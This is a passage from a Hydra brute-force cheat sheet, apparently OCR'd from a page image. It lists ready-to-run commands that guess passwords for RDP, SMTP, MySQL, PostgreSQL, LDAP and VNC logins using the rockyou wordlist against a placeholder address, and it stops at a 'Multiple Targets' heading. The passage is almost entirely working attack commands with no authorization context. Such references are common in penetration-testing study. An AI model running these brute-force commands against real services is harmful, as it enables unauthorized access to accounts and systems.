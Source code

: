 ### RDP

```bash
# Brute force RDP
hydra -l Administrator -P /usr/share/wordlists/rockyou.txt rdp://10.10.10.10

# With non-standard port
hydra -l Administrator -P /usr/share/wordlists/rockyou.txt rdp://10.10.10.10:3390
```

### SMTP

```bash
# Brute force SMTP authentication
hydra -l admin@example.com -P /usr/share/wordlists/rockyou.txt smtp://10.10.10.10

# SMTP with TLS
hydra -l admin@example.com -P /usr/share/wordlists/rockyou.txt smtp-tls://10.10.10.10
```

### MySQL

```bash
# Brute force MySQL
hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://10.10.10.10

# With custom port
hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://10.10.10.10:3307
```

### PostgreSQL

```bash
# Brute force PostgreSQL
hydra -l postgres -P /usr/share/wordlists/rockyou.txt postgres://10.10.10.10
```

### LDAP

```bash
# LDAP brute force
hydra -l "cn=admin,dc=example,dc=com" -P /usr/share/wordlists/rockyou.txt ldap://10.10.10.10
```

### VNC

```bash
# VNC authentication (no username required)
hydra -P /usr/share/wordlists/rockyou.txt vnc://10.10.10.10
```

## Advanced Usage

### Multiple Targets
